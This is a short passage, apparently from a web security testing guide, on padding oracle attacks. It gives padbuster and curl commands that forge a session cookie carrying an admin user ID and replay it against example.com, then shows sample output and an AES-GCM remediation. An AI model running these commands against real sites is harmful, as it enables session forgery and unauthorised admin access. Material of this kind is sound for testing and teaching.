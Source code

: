 **padbuster Commands**:
- **Command 1**: Forge a new ciphertext:
  ```bash
  padbuster http://example.com/profile 5a8b9c0d1e2f3g4h5i6j7k8l9m0n 16 -cookies "session=5a8b9c0d1e2f3g4h5i6j7k8l9m0n" -encoding 0 -plaintext '{"user_id": "admin"}'
  ```
- **Command 2**: Test forged ciphertext:
  ```bash
  curl -i -b "session=a1b2c3d4e5f6g7h8i9j0k1l2" http://example.com/profile
  ```

**Example Vulnerable Output**:
```
Forged ciphertext: a1b2c3d4e5f6g7h8i9j0k1l2
Response: HTTP/1.1 200 OK, {"role": "admin"}
```

**Remediation**:
- Use authenticated encryption (Python):
  ```python
  from cryptography.hazmat.primitives.ciphers.aead import AESGCM
  aesgcm = AESGCM(key)
  ciphertext = aesgcm.encrypt(nonce, plaintext, associated_data)
  ```

**Tip**: Save padbuster output and cURL responses to a file (e.g., `padbuster ... > forgery.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., forged responses).
